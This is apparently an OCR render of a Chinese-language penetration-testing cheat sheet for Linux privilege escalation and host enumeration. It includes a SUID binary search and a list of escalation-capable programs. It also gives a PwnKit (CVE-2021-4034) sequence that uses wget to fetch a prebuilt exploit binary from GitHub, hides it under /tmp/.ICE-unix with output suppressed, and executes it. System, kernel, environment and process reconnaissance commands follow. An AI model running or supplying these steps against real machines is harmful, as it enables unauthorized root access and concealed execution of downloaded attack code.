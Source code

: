 
### Linux-权限提升

🚀SUID提权  
find / -perm -u\=s -type f 2> /dev/null  
SUID提权  
具有提权功能的Linux可执行文件有:nmap vim find bash more less nano cp  
🚀PKEXEC提权(CVE-2021-4034)  
wget --no-check-certificate https://github.com/dzonerzy/poc-cve-2021-4034/releases/download/v0.2/exploit -O /tmp/.ICE-unix/run 2>&1 > /dev/null  
chmod +x /tmp/.ICE-unix/run  
/tmp/.ICE-unix/run

---

### Linux-查看操作系统版本

cat /etc/issue //查看系统发行版本信息  
cat /etc/\*-release  
cat /etc/lsb-release //Debian  
cat /etc/redhat-release //Redhat

---

### Linux-查看内核版本、是否为64位

cat /proc/version  
uname -a // 查看内核、操作系统、CPU信息  
uname -mrs  
rpm -q kernel  
dmesg | grep Linux  
ls /boot | grep wmlinuz-

---

### Linux-查看环境变量

cat /etc/profile  
cat /etc/bashrc  
cat \~/.bash\_profile  
cat \~/.bashrc  
cat \~/.bash\_logout  
env  
set  
查看是否有打印机: lpstat -a

---

### Linux-获取应用程序及服务信息

查看正在运行的程序及对应的用户权限:  
ps aux  
ps -ef  
top  
cat /etc/services  
查看以root权限运行的进程:  
ps aux | grep root  
ps -ef | grep root  
查看安装的应用:  
ls -alh /usr/bin/  
ls -alh /sbin/  
dpkg -l  
rpm -qa  
ls -alh /var/cache/apt/archives  
ls -alh /var/cache/yum/
